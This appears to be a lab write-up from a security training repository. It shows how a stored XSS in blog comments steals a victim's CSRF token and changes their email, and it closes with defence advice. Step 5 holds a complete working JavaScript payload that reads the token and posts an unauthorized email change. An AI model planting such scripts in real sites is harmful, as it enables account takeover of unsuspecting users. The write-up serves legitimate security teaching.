







# Exploiting XSS to Bypass CSRF Defenses

**Author:** Dnyaneshwar Yadav

---

## Overview

This lab contains a **Stored Cross-Site Scripting (XSS)** vulnerability in the blog comments function.

The goal is to exploit this vulnerability to **steal a CSRF token** and use it to change the email address of a victim user who views the blog post comments.

**Key Technique:** This lab demonstrates using XSS to bypass CSRF protection by dynamically extracting the victim's CSRF token and submitting an unauthorized email change request on their behalf.

**Goal:** Change the victim's email address without their knowledge or consent.

---

## Lab Information

- **Difficulty Level:** Practitioner
- **Vulnerability Type:** Stored XSS + CSRF Bypass
- **Target:** Blog comment functionality
- **Credentials:** `wiener:peter`

---

## Understanding XSS vs CSRF

Before proceeding, it's important to understand the difference:

**XSS (Cross-Site Scripting):**
- Exploits the **user's trust in a website**
- Injects malicious scripts that run in the user's browser
- Executes in the **context of the trusted site**

**CSRF (Cross-Site Request Forgery):**
- Exploits the **website's trust in the user's browser**
- Forces authenticated users to perform unintended actions
- User is **unaware** of the unauthorized actions

**This Lab:**
- Uses **XSS** to perform **CSRF**
- XSS steals the CSRF token
- CSRF attack changes email without user knowledge

---

## Solution

### Step 1: Review the lab description

Open the lab and read the description carefully.

**Key points:**

* Stored XSS in blog comments
* Must steal CSRF token
* Use token to change victim's email
* Credentials provided: `wiener:peter`
* Cannot reuse email addresses



---

### Step 2: Login with provided credentials

Navigate to **My Account** and login:

- **Username:** `wiener`
- **Password:** `peter`



---

### Step 3: Understand email change functionality

After login, observe the **My Account** page.

**Current email:** `test@test.com`

Change the email to test the functionality:

**New email:** `test2@test2.com`

Click **Update email**.



---

### Step 4: Analyze email change request in Burp Suite

Open **Burp Suite** and locate the POST request to `/my-account/change-email`.

**Request parameters:**
```
email=test2@test2.com&csrf=HhALnw3MdpbNhmpHNrmzF1mwJbhXS4
```

**Key observations:**

* Endpoint: `/my-account/change-email`
* Method: **POST**
* Parameters:
  - `email` - New email address
  - `csrf` - CSRF token (required)

**CSRF Protection:**
Without a valid CSRF token, the email change request will fail.



---

### Step 5: Craft CSRF bypass payload

Create a payload that:
1. Waits for page to fully load (DOM content loaded)
2. Extracts the victim's CSRF token dynamically
3. Builds a POST request with stolen CSRF token
4. Changes victim's email without their knowledge

**Final Payload:**
```html
<script>
window.addEventListener('DOMContentLoaded', function(){
var csrf = document.getElementsByName('csrf')[0].value
var formdata = new FormData();
formdata.append('email','changed@changed.com');
formdata.append('csrf',csrf);
fetch('https://0a88006c031548da80e6035600aa0076.web-security-academy.net/my-account/change-email',{
method: 'POST',
mode: 'no-cors',
body: formdata
});
});
</script>
```

**Payload breakdown:**

* `window.addEventListener('DOMContentLoaded', function(){...})` - Executes when page fully loads
* `document.getElementsByName('csrf')[0].value` - Extracts CSRF token from hidden input field
* `new FormData()` - Creates form data object for POST request
* `formdata.append('email','changed@changed.com')` - Sets target email address
* `formdata.append('csrf',csrf)` - Adds stolen CSRF token
* `fetch()` - Sends POST request to change email endpoint
* `method: 'POST'` - HTTP method
* `mode: 'no-cors'` - Bypasses CORS restrictions
* `body: formdata` - Sends form data as request body



---

### Step 6: Post malicious comment

Navigate to any blog post and submit the payload as a comment:

**Comment:** (Entire CSRF bypass script)

**Important Note:**
The email `changed@changed.com` will be assigned to whoever views this comment first. If you test with your own account first, use a **different email** for the final victim exploit.

**Comment details:**
- **Name:** `xyz`
- **Email:** `xyz@xyz.com`
- **Website:** `http://test.com`

Click **Post Comment**.



---

### Step 7: Lab solved confirmation

When the victim (simulated user) views the blog post:

1. The stored XSS payload executes
2. `DOMContentLoaded` event triggers the function
3. CSRF token is extracted from the victim's page
4. POST request is sent with victim's CSRF token
5. Victim's email is changed to `changed@changed.com`
6. **Victim is unaware** this happened

The lab is automatically marked as **Solved**.



---

## Result

Successfully exploited a **Stored XSS vulnerability to bypass CSRF protection** by:

* Identifying stored XSS in blog comment functionality
* Analyzing CSRF-protected email change functionality
* Understanding CSRF token requirement
* Extracting CSRF token dynamically using JavaScript
* Using `FormData` API to build POST request
* Using `fetch()` API to submit unauthorized request
* Bypassing CSRF defenses by stealing victim's token
* Changing victim's email without their knowledge

This lab demonstrates that **CSRF tokens alone are insufficient** if XSS vulnerabilities exist, as the tokens can be stolen client-side.

---

## Key Concepts

### Why CSRF Protection Failed:

**CSRF tokens prevent:**
- External websites from forging requests
- Attackers who don't have access to the token

**CSRF tokens DO NOT prevent:**
- XSS attacks that run in the same origin
- Client-side JavaScript from reading the token
- Malicious scripts from accessing the DOM

### The Attack Flow:
```
Attacker posts XSS → Victim views comment → Script executes → 
CSRF token extracted → POST request sent → Email changed → 
Victim unaware
```

### Defense Recommendations:

1. **Fix XSS vulnerabilities** - Primary defense
2. **Use Content Security Policy (CSP)**
3. **Implement SameSite cookies**
4. **Validate and sanitize all user input**
5. **Use HTTPOnly and Secure flags**

---

## Screenshots Folder Structure
```text
screenshots/
├── 01-lab-description.png
├── 02-login-page.png
├── 03-my-account-page.png
├── 04-burp-email-change.png
├── 05-csrf-bypass-payload.png
├── 06-post-malicious-comment.png
└── 07-lab-solved.png
```

---

## Disclaimer

This repository is for educational purposes only. The techniques demonstrated here should only be used in authorized environments such as security labs and CTF challenges.

---